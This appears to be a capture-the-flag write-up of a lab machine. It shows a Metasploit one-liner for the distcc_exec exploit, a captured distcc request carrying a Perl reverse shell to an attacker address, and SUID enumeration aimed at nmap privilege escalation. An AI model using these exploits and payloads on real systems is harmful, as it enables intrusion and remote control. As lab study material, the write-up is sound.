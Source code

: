````

/home/user:
total 28
drwxr-xr-x 3 1001 1001 4096 May  7  2010 .
drwxr-xr-x 6 root root 4096 Mar 14  2017 ..
-rw------- 1 1001 1001  165 May  7  2010 .bash_history
-rw-r--r-- 1 1001 1001  220 Mar 31  2010 .bash_logout
-rw-r--r-- 1 1001 1001 2928 Mar 31  2010 .bashrc
-rw-r--r-- 1 1001 1001  586 Mar 31  2010 .profile
drwx------ 2 1001 1001 4096 May  7  2010 .ssh

cat /home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
````

# Rewrite the exploit with msf in one line

$ msfconsole -x "use exploit/unix/misc/distcc_exec; set payload cmd/unix/reverse_perl;set RHOST 10.10.10.3;set LHOST 10.10.14.4;exploit"


# Rewrite the exploit in ruby : exploit_distcc.rb 

Take a wireshark trace
````
Wireshard TCP stream dump
DIST00000001ARGC00000008ARGV00000002shARGV00000002-cARGV000000e5perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"10.10.14.4:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002-oARGV00000006main.oDOTI0000000AWEKvoYoCCu
DONE00000001STAT00000000SERR00000000SOUT00000000DOTO00000000
````

=> ruby exploit_distcc.rb 
Exploit manually written in ruby :)


## Privilege escalation using nmap with sticky bit
````
find / -user root -perm -4000 -print 2>/dev/null
/bin/umount
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/ping6
/sbin/mount.nfs
/lib/dhcp3-client/call-dhclient-script
/usr/bin/sudoedit
/usr/bin/X
/usr/bin/netkit-rsh
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/netkit-rlogin
/usr/bin/arping
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/nmap
/usr/bin/chsh
/usr/bin/netkit-rcp
/usr/bin/passwd
/usr/bin/mtr
````